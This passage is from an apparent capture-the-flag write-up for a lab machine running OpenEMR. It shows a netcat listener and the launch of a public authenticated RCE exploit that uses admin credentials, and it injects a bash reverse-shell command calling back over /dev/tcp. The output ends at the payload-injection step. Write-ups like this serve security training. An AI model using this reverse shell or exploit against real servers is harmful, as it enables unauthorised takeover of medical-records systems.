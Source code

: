 ![version](images/version.png)

## RCE

We find an authenticated RCE exploit for this version on [exploit-db](https://www.exploit-db.com/exploits/45161), we run the script with the path to the login, the username and password, and the command we want to execute, which is a bash reverse shell.

First, set up a listener for the connection:

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Then execute the exploit:

```bash
finlay@kali:~/htb/cache$ python exploit.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/LOCAL_IP/LOCAL_PORT 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```
